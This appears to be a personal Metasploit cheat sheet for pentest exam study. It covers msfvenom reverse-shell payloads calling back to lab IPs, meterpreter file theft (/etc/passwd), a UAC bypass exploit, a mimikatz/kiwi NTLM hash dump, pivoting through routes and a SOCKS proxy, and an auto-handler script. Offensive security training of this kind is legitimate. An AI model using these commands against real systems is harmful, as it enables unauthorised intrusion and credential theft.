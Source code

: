 # Metasploit Intro
- ``` msfconsole -q ``` quiet mode 
- Care about port issue (sometimes not all port avaiable to use shell)
## Rules:
- Allow in ALL machines
    ```
    multi/handler
    msfvenom (excluding meterpreter payload),
    pattern_create 
    pattern_offset 
    ```
- Allow in SINGLE machines
  ```
    meterpreter
    auxiliary
    post
    exploit
    scan
  ```

## Basics
- ``` workspace -a {new workspace name}``` add | delete ``` -d ```
- ``` db_nmap ``` Nmap inside Metasploit 
- ``` hosts ``` list of all discovered hosts up to this point
- ``` services -p {port}``` show all discovered services

## Auxiliary Module (輔助)
- ``` search type:auxiliary {module name} ``` search
- ``` use {module_id} ``` load certain module
- ``` info ``` show info
- ``` show options ``` 
- ``` unset RHOSTS ``` reset param
- ``` run ```
- ``` vulns```

## Exploit Module
- ``` search type:exploit {module name} ``` search
- ``` set payload payload/linux/x64/shell_reverse_tcp ```
- when success will have shell created -> move to background with ctrl z
- show sessions in background ``` sessions -l ``` 
- kill sessions ``` session -k {id} ``` | ``` session -K ``` kill all
- reset workspace wont kill sessions
- Change target(OS) ``` set target {0 or 1} ``` 0 = unix | 1 = windows <- depends!! ``` show targets ```

# Payloads
## Staged vs Non-Staged
- ``` / ``` = Staged & ``` _ ``` Stagless for name
- Staged : 2 step to bypass AV (send smaller packet first, then smuggle the payload thru another step)
- Stageless : 1 step (large & one take) 

## meterpreter payload
- multiple cmd packaged for staged one & not directly have a Remote shell ( can do other stuff)
- ```  sysinfo ``` 
- ``` getuid ``` get UID lolll
- ``` shell ``` generate shell 
- ``` channel -l ``` show all active channel | ``` channel -i {id} ``` use certain channel
- ``` download /etc/passwd ``` = scp
- ``` lcat ``` = meterpreter version cat
- ``` upload /usr/bin/unix-privesc-check /tmp/ ``` = scp
- ``` ls {dir}``` = ls loll
- ``` search -f {fileName} ```
- ``` getsystem ``` auto priv esc
- ``` ps ``` show all process
- ``` bg ``` background the session
  
## Executable Payloads (exe,ps1,bin)
### msfvenom
- https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom 
- ``` msfvenom -l payloads --platform {windows/php/etc...} --arch x64 ``` show all payloads with criteria
- ``` msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.2 LPORT=443 -f exe -o nonstaged.exe ``` example of generating payload

### metasploit handler in kali
- some payload req msf to connect & ncat cant handle
- ``` msf6> use multi/handler ```


# Post Exploit for windows
- Module = Post
## Migrate to other process
  1. throw reverse shell (``` msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.4 LPORT=443 -f exe -o met.exe ```) to victim 
  2. connect back kali by multi/handler e.g.(``` set payload windows/x64/meterpreter_reverse_https ```)
  3. try list all process ``` ps ```
  4. ``` migrate {pid} ``` sometimes not successful then try his parent(PPID) with same user 
## UAC
- ```msf6> search UAC ``` 
  1. once get the shell ``` meterpreter > shell ```
  2. windows ``` powershell -ep bypass ```
  3. check UAC level: ``` Import-Module NtObjectManager ``` then ``` Get-NtTokenIntegrityLevel ```
  4. useful UAC bypass : ``` use exploit/windows/local/bypassuac_sdclt ```
  5. bind to the session that we previous made ( can recheck with session list cmd ) then ``` set session {sid} ```

### Load mikikaze
  1. Req admin OR UAC High priv
  2. ``` load kiwi ``` load & ``` help ``` see all cmd 
  3. ``` creds_msv ``` get NTLM/SHA-1 hashs of users

### Use other post script for the session
 - e.g. enum hosts file
 - ``` use post/windows/gather/enum_hostfile ``` then bind to session we create before ``` set session {sid}```

## Pivoting 
### Manual route
- Check another ip in other subnet e.g. 172.16.155.18 -> subnet=172.16.155.0 (probably, need see /??)
- port forwardingset in routing table ``` route add 172.16.{subnet}.0/24 {session_id} ```
- print route table assigned ``` route print ```
- test with port scan module e.g. ``` use auxiliary/scanner/portscan/tcp ``` to see if routing success
- terminate all routes ``` route flush ``` | remove 1 only ``` route remove {ip}/24 {session_id} ```
  
### Auto Route (Part 1)
- ``` use multi/manage/autoroute ``` and then bind to the shell session we made before

### Proxy (Part 2)
- ``` use auxiliary/server/socks_proxy ``` & ``` set SRVHOST 127.0.0.1 ``` (only allow host to call seems more safe) & ``` set SRVPORT 9999 ```
-  edit ```/etc/proxychains4.conf``` to the one we set e.g. ``` socks5 {SRVHOST} {SRVPORT}``` (entry point of the proxy)
-  

# Auto fucking metasploit
- write all command of metasploit and save in a script with ruby : autoFuck.rc (maybe)
  e.g. 
    ```
      use exploit/multi/handler
      set PAYLOAD windows/meterpreter_reverse_https
      set LHOST 192.168.45.154
      set LPORT 6969
      set AutoRunScript post/windows/manage/migrate
      set ExitOnSession false
      run -z -j
    ```
- ``` sudo msfconsole -r {script name}.rc ```